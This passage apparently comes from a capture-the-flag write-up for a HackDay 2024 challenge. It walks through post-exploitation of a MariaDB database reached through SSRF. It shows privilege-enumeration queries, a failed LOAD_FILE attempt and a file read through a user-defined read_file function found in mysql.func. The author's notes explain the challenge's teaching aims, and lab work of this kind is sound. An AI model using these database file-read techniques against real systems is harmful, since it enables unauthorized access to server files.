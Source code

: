 #### Content of the message table:
```
SELECT * FROM messages [7]:
[*] Hello there!, 1, 3, 1
[*] Meeting at 2 PM tomorrow., 2, 3, 2
[*] FIND THE FLAG., 3, 2, 3
[*] Don't forget to submit the report., 4, 1, 3
[*] Happy Birthday!, 5, 2, 1
[*] Not working... I should try to define my own method, 6, 3, 3
[*] Final project presentation on Friday., 7, 3, 2
```

# Post exploit

From here we  need to think about what we want to obtain.

Going back to the objective of the challenge: 
* Retrieving the flag located in `/flag/flag.txt` as described in the challenge description.

We try the classic function to read local file in MySQL/MariaDB:
- Subpayload: `SELECT LOAD_FILE('/flag/flag.txt')`
- Result blank...

To check our file reading rights in the DB we can check the permissions with the following query:
- `select user();` : root
- `select user,file_priv from mysql.user;` : `[*] root, Y ; [*] mysql.session, N ; [*] mysql.sys, N ; [*] root, Y`
- `select @@secure_file_priv;` : `/var/lib/mysql-files/`

Based on those information we know that `LOAD_FILE` won't work here.

_Different methods of manual or automated MySQL/Mariadb enumeration could help_

A hint was present within the `message` tables:
* `Not working... I should try to define my own method`

With the following Google research `mariadb define own method` we find:

![google_search](https://github.com/ChallengeHackDay/2024-qualif/assets/40593456/014b9117-8818-41e9-b2a1-78923e9e10d3)
![udf_table](https://github.com/ChallengeHackDay/2024-qualif/assets/40593456/da7697ea-8e01-44dc-9ba2-55cf43bb6df2)

So using the documentation we query the following:
- Query: `SELECT * FROM mysql.func ;`
- Response: `read_file`

Since User Defined Functions (UDF) can be used as regular functions we will try to read the flag with it:
- Query: `SELECT read_file("/flag/flag.txt") ;`
- Response: `HACKDAY{SsRf_AnD_UDf_W0W!_m}`

# Notes from the author

I made this challenge for the following purposes:
- Present a *kind-of* realistic SSRF vulnerability
- Highlight the fact that all SSRF doesn't involve changing protocols or HTTP methods (GET parameters ftw)
- Propose a post exploitation on a database
- Highlight the fact that common MySQL/MariaDB cheatsheets forget to list the `mysql.func` table

It was inspired by real-life pentests experiences.
